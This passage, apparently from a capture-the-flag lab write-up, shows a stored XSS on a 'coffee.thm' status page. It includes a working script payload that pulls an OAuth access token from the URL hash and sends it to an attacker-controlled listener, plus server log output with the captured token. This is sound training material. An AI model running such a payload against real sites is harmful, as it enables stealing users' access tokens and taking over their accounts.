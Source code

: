 We can see that we can submit statuses, we can test `xss`:

```js
<script>alert("XSS")</script>
```

If we refresh the page, we can see this:

![Pasted image 20250505143427.png](../../../IMAGES/Pasted%20image%2020250505143427.png)

This page is vulnerable to `xss`, we can perform the following `xss` payload to steal the token:

```js
<script>var hash = window.location.hash.substr(1);var result = hash.split('&').reduce(function (res, item) {var parts = item.split('=');res[parts[0]] = parts[1]; return res; }, {}); var accessToken = result.access_token; var img = new Image(); img.src = 'http://IP:8000/steal_token?token=' + accessToken; </script>
```

Once we submit it, if we refresh the page and have our python server ready, we can see this:

```python
python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.11.136.34 - - [05/May/2025 19:34:13] code 404, message File not found
10.11.136.34 - - [05/May/2025 19:34:13] "GET /steal_token?token=412aJ4FYFecOTNaX2vJo0f1diZqpLC HTTP/1.1" 404 -
```

We got our token, let's go and receive our flag:

```
http://coffee.thm:8080/flagvalidator/
```

![Pasted image 20250505143558.png](../../../IMAGES/Pasted%20image%2020250505143558.png)
